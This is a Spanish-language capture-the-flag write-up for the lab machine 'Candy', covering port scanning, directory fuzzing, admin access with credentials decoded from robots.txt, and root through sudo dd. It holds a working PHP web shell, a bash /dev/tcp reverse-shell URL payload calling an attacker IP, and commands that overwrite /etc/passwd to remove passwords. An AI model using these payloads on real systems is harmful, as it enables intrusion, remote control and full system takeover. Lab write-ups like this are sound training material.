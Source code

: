 # Reporte Técnico - Pentesting Máquina Vulnerable **Candy**

**Nivel:** Fácil

---

## Descripción

Se descargó la máquina vulnerable y se descomprimió con:

```bash
unzip candy.zip
```

Luego se desplegó con:

```bash
sudo bash auto_deploy.sh candy.tar
```

![Despliegue de la máquina](Imágenes/2025-05-14_23-56.png)

---

## Conectividad

Se verificó la conexión a la máquina con un ping:

```bash
ping -c1 172.17.0.3
```

![Ping a la máquina](Imágenes/Capturas.png)

---

## Escaneo de puertos

Se ejecutó un escaneo intensivo para identificar puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Solo se encontró el puerto 80 (HTTP) abierto.
![Nmap escaneo completo](Imágenes/Capturas_1.png)

Luego, para obtener más detalles sobre el puerto 80:

```bash
nmap -sC -sV -p80 172.17.0.3 -oN target.txt
```

![Nmap escaneo versión y scripts](Imágenes/Capturas_2.png)

---

## Reconocimiento web

Al acceder a [http://172.17.0.3:80](http://172.17.0.3:80) se encontró una página con formulario de inicio de sesión y registro.
![Página principal](Imágenes/Capturas_3.png)

---

## Fuzzing de directorios ocultos

Se realizó fuzzing para descubrir directorios ocultos con:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron los siguientes directorios:

```
/images               
/media               
/templates           
/modules              
/plugins             
/includes             
/language             
/README.txt           
/components           
/api                  
/cache                
/index.php            
/robots.txt           
/tmp                  
/LICENSE.txt          
/layouts              
/administrator       
/configuration.php    
/htaccess.txt        
/cli                 
```

![Directorios encontrados](Imágenes/Capturas_4.png)

---

## Usuarios y credenciales

En el directorio `/administrator` se encontró el usuario `TLuisilloo`:
[http://172.17.0.3/administrator/index.php](http://172.17.0.3/administrator/index.php)
![Página administrador](Imágenes/Capturas_5.png)

En `/robots.txt` se hallaron posibles credenciales codificadas:

```
admin:c2FubHVpczEyMzQ1
```

Decodificando base64 con:

```bash
echo c2FubHVpczEyMzQ1 | base64 -d
```

Obtenemos la contraseña:

```
sanluis12345
```

![Decodificación Base64](Imágenes/Capturas_6.png)
![Credenciales decodificadas](Imágenes/Capturas_7.png)

Con estas credenciales se logró acceder como administrador:
![Acceso administrador](Imágenes/Capturas_8.png)
![Página principal con sesión iniciada](Imágenes/Capturas_9.png)

---

## Subida de Webshell

En el menú `System > Site Templates` se encontró la posibilidad de subir archivos maliciosos para obtener una web shell.
![Subida de archivos maliciosos](Imágenes/Capturas_10.png)

---

## Método de explotación 1: Inyección de Web Shell PHP

Se modificó el archivo `index.php` en la línea 143 agregando:

```php
<?php echo system($_GET['shadow']); ?>
```

* **$\_GET\['shadow']**: obtiene el parámetro `shadow` de la URL.
* **system()**: ejecuta el comando del sistema operativo recibido.
* **echo**: muestra la salida del comando en el navegador.

**Ejemplo de uso:**

```
http://172.17.0.3/index.php?shadow=ls
```

Ejecuta `ls` y muestra el resultado. También:

```
http://172.17.0.3/index.php?shadow=cat%20/etc/passwd
```

Revela el contenido de `/etc/passwd`.
![Ejecutando comando ls](Imágenes/Capturas_11.png)
![Leyendo /etc/passwd](Imágenes/Capturas_12.png)

---

## Método 2: Reverse Shell en PHP

Se reutilizó el mismo código de la web shell. Desde el navegador se ejecuta:

```
http://172.17.0.3/?shadow=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.10/433+0>%261'
```

(Cambia la IP y puerto según tu equipo)

Se debe tener el puerto escuchando antes con:

```bash
sudo nc -lvnp 433
```

Y se obtiene acceso a una terminal remota.
![Reverse shell conexión](Imágenes/Capturas_13.png)
![Terminal remota](Imágenes/Capturas_14.png)

---

## Escalada de privilegios

Al no poder usar `sudo -l` directamente, se buscó con:

```bash
find / -name "*.txt" 2>/dev/null
```

Se encontró el archivo `/var/backups/hidden/otro_caramelo.txt` con credenciales sensibles:

```php
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';
```

![Archivo con credenciales](Imágenes/Capturas_15.png)

Verificando usuarios en `/etc/passwd`, existe `luisillo`. Con estas credenciales se pudo usar:

```bash
sudo -l
```

Mostrando que `luisillo` puede usar:

```
(ALL) NOPASSWD: /bin/dd
```

![Permisos sudo](Imágenes/Capturas_16.png)

---

## Escalada final con dd

1. Copiamos `/etc/passwd` para editarla:

```bash
cat /etc/passwd > copia.txt
```

2. Eliminamos la `x` (marca de contraseña) del archivo:

```bash
sed 's/x//g' copia.txt > copia_sin_x.txt
```

3. Sobrescribimos `/etc/passwd` con la copia modificada:

```bash
cat copia_sin_x.txt | sudo /bin/dd of=/etc/passwd
```

4. Accedemos como root con:

```bash
su
```

![Acceso root](Imágenes/Capturas_17.png)

---

# Conclusión

Se logró explotar la máquina vulnerable Candy a nivel fácil, desde reconocimiento hasta escalada de privilegios root, mediante técnicas de webshell, reverse shell y explotación de permisos sudo con `dd`. Este ejercicio demuestra la importancia de proteger la ejecución remota de comandos y la correcta configuración de sudoers.

---
